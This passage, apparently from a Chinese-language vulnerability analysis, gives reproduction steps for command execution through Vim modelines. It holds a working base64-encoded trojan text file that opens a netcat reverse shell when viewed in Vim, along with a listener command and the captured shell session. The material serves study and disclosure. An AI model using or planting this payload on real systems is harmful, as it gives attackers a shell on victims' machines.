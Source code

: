 

##### c. 复现步骤

- 搭建复现环境，与Poc相同

- Step1 - 创建exp文件

```shell
$ echo "G1s/N2wbUyBOb3RoaW5nIGhlcmUuGzpzaWxlbnQhIHcgfCBjYWxsIHN5c3RlbSgnbm9odXAgbmMudHJhZGl0aW9uYWwgMTI3LjAuMC4xIDk5OTkgLWUgL2Jpbi9zaCAmJykgfCByZWRyYXchIHwgZmlsZSB8IHNpbGVudCEgIyAiIHZpbTogc2V0IGZlbiBmZG09ZXhwciBmZGU9YXNzZXJ0X2ZhaWxzKCdzZXRcIGZkZT14XCBcfFwgc291cmNlXCFcIFwlJykgZmRsPTA6IBYbWzFHFhtbMktOb3RoaW5nIGhlcmUuIhYbWzJEICAK" | base64 --decode > exp.txt

```

- Step2 - 监听nc回连端口

```shell
$ nc -vlp 9999
Listening on [0.0.0.0] (family 0, port 9999)

```

- Step3 - Vim打开exp文件

```shell
$ vim exp.txt
 Nothing here.
~                                                                      
...                                                                     
~                                                                               
"exp.txt" line 1 of 1 --100%-- col 14

```

- 会话建立成功

```shell
$ nc -vlp 9999
Listening on [0.0.0.0] (family 0, port 9999)
Connection from [127.0.0.1] port 9999 [tcp/*] accepted (family 2, sport 55824)
pwd
/home/invincible/Desktop/test/vim_test
id
uid=1000(invincible) gid=1000(invincible) groups=1000(invincible),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)


```

  

### d. 利用核心要素

- Vim的modeline可以在文件加载时自动配置；

- Vim进行配置时会执行Vim指令，而Vim的某些指令又能够执行系统的Shell指令(通过`fork+execvp/system`)；
